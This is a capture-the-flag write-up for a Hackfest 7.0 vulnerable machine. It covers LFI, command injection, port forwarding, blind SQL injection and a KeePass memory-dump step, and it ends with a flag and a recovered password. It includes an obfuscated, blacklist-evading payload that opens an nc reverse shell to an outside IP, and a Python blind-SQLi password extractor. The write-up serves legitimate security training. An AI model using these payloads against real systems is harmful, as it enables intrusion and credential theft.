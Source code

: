 I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0: 
![img](image_2023-06-26_001633995.png)
Let's first start with a scan to discover open ports:
![img](image_2023-06-25_221255274.png)
So let's go ahead and check the web app on port 80:
![img](image_2023-06-25_221211894.png)
We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:
![img](image_2023-06-25_221230171.png)
It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take: ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:
![img](image_2023-06-25_221346724.png)
And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:
![img](image_2023-06-25_221412943.png)
We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:
![img](image_2023-06-25_221430709.png)
We type any command and we find it is vulnerable to command injection:
![img](image_2023-06-25_221442066.png)
But when we type some other commands it tells us to get away, not very polite huh? :
![img](image_2023-06-25_221518226.png)
It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :D , and we get a callback from the server: 
![img](image_2023-06-25_223318248.png)
![img](image_2023-06-25_223328201.png)
Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:
![img](image_2023-06-25_223347505.png)
This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps: you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):
![img](image_2023-06-25_225508169.png)
![img](image_2023-06-25_225517751.png)
And now we can access it from ``http://127.0.0.1:10003``:
![img](image_2023-06-25_225533101.png)
Now let's try to test a bunch of different things:
![img](image_2023-06-25_225552903.png)
![img](image_2023-06-25_225605097.png)
Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.
![img](image_2023-06-25_225747594.png)
After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:
``python
#!/usr/bin/python
import requests
def string(start,end):
        str=''
        for i in range(start,end):
                str+=chr(i)
        return str
def passwd():
        url='http://127.0.0.1:10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
                for i in test:
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':
        passwd()
``
And we run it:
![img](image_2023-06-25_231535263.png)
And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:
![img](image_2023-06-25_231850578.png)
And we get our first flag: 
``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:
![img](image_2023-06-25_232511782.png)
I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it: ``https://github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is: ``mallafouedyesahby``

